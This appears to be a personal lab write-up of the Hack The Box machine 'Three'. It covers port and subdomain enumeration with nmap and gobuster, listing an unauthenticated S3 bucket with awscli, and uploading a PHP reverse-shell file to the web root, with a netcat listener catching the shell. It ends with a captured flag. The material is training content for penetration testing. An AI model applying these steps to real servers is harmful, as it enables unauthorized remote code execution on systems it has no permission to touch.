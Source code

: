 
### THREE
#Linux 
#AWS #S3
#PHP #RevShell
#Gobuster

==`nmap 10.129.167.144 --min-rate 1000 -sV -p- -v`==

![[Screenshot 2024-05-10 at 10.35.54 PM.png]]


![[Screenshot 2024-05-10 at 11.09.49 PM.png]]
- Contact Info

![[Screenshot 2024-05-10 at 11.10.06 PM.png]]

- Add IP and domain name to `/etc/hosts`

- Enumerate subdomains `x.thetoppers.htb` 

Often, different subdomains will have different IP addresses, so when our system goes to look up the subdomain, it gets the address of the server that handles that application. It is also possible to have one server handle multiple subdomains. This is accomplished via "host-based routing", or "virtual host routing", where the server uses the Host header in the HTTP request to determine which application is meant to handle the request.



#### **Gobuster**
#tools 

==`gobuster vhost -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-5000.txt -u http://thetoppers.htb --append-domain`==

![[Screenshot 2024-05-10 at 11.23.00 PM.png]]

- Add to `/etc/hosts`

![[Screenshot 2024-05-10 at 11.25.59 PM.png]]


==`http://s3.thetoppers.htb`==

![[Screenshot 2024-05-10 at 11.32.29 PM.png]]

Running Amazon S3 Bucket
***

#### **Install awscli**
#tools 

==`apt install aws`==
![[Screenshot 2024-05-10 at 11.40.23 PM.png]]

- Configure
- Use arbitrary value for each field, sometimes server does not check authentication

==`aws configure`==
![[Screenshot 2024-05-10 at 11.45.49 PM.png]]

- List all S3 buckets hosted on server
==`aws --endpoint=http://s3.thetoppers.htb s3 ls`==

![[Screenshot 2024-05-10 at 11.47.59 PM.png]]

- List objects and common prefixes under bucket
==`aws --endpoint=http://s3.thetoppers.htb s3 ls s3://thetoppers.htb`==

![[Screenshot 2024-05-10 at 11.49.18 PM.png]]

awscli has got another feature that allows us to copy files to a remote bucket.

try uploading a PHP shell file to the S3 bucket and since it's uploaded to the web-root directory we can visit this webpage in the browser, which will execute this file and achieve remote code execution.


`*****************
WIP 🚧 5/10/2024
`*****************`

==`aws --endpoint=http://s3.thetoppers.htb s3 cp rev.php s3://thetoppers.htb`==

![[Screenshot 2024-05-13 at 8.34.10 PM.png]]


![[Screenshot 2024-05-13 at 8.35.31 PM.png]]

- Start NC listener on attacker and navigate to URL

![[Screenshot 2024-05-13 at 8.36.00 PM.png]]


Try Web root (where the webpage lives)
![[Screenshot 2024-05-13 at 8.38.09 PM.png]]

![[Screenshot 2024-05-13 at 8.39.39 PM.png]]

💥 

![[Screenshot 2024-05-13 at 8.41.21 PM.png]]

flag : a980d99281a28d638ac68b9bf9453c2b

***
***
